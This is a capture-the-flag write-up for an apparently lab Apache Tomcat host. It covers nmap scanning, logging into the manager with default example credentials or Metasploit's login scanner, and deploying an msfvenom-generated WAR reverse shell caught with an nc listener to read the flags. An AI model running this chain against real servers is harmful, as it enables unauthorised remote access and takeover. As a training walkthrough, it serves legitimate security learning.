








### Task1

Which TCP port is open on the remote host?

Run nmap to scan for ports

```nmap -sS -p- <target_ip>```



After scanning, the port 8080 is revelead to be open, where the http-proxy service is running.

### Task 2

Which web server is running on the remote host? Looking for two words.

To find the web server, we need to add the version field on the nmap scan.

```nmap -sV -p 8080 <target_ip>```



We see on the version that the web server is **Apache Tomcat**.

### Task 3

Which relative path on the webserver leads to the Web Application Manager?

Open a browser and navigate to the ip address of the target. Remember to specify the port to be 8080.

Take a look at the page, to see you can find anything useful. Under **Managing Tomcat** you see a URL to **manager webapp** which might be what is refered as Web Application Manager. It is stated that for security, access is restricted and users are defined in **$CATALINA_HOME/conf/tomcat-users.xml**. This seems like an interesting information, but let's first see what the URL gets us. When clicking we get redirected to **/manager/html** where we are asked to input our credential. This is a point we should keep in mind, but for now we got the relative path the question is asking for.

### Task 4

What is the valid username and password combination for authenticating into the Tomcat Web Application Manager? Give the answer in the format of username:password

On the previous step, we navigated to the **/manager/html** were we were asked for credentials. Since we were not able to authenticate, we show an example in the page of how to add a role to a user for accesssing the manager application. We can try to use those example credentials and see if they work on the login prompt, and they do!



Another approach to this, is using **Metasploit Framework**. First, run ```msfconsole``` and then ```search tomcat```. There you will find the auxiliary **auxiliary/scanner/http/tomcat_mgr_login** which will attempt to login based on a list of username - password names. To use it, run ```use <number_of_option>``` and then to see what you it is required for you to set ```show options```. 

To select the target IP address and the port, run ```set RHOSTS <target_ip>``` and ```set RPORT <target_port>```. Then type ```run``` and you will see that a login attempt was succesfull! As seen, those are the same credentials that were found before. 



<!--truncate--> 

### Task 5

Which file type can be uploaded and deployed on the server using the Tomcat Web Application Manager?

After authenticating in the previous page, you will see this part in the Web Application Manager page:



We can see that the file type is **WAR**. 

### Task 6

Submit the flag located on the user's desktop.

From the previous task, we realised we would be able to upload a war file, which smells like a backdoor we could use for remote code execution. A war file is used to deploy java based applications and we can use it to deploy a reverse shell and gain remote access to the target system. 

We can generate a war file using msfvenom 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f war > shell.war```

An open the port that was specified so we can listen to the connection from the target

```sudo nc -lvnp <your_port>```

Then we navigate to the manager page and upload the war payload. 
On the list of applications we can see our deployment 



Then we can navigate to the **/shell** path and on our temrminal that we opened the port we can see are connected!



Navigating to the directory **\Users\Administrator\Desktop** and lisitng the direcrtories, we find a folder named flags. 



Running ```type "2 for the price of 1.txt"``` we get both the user and the root flags.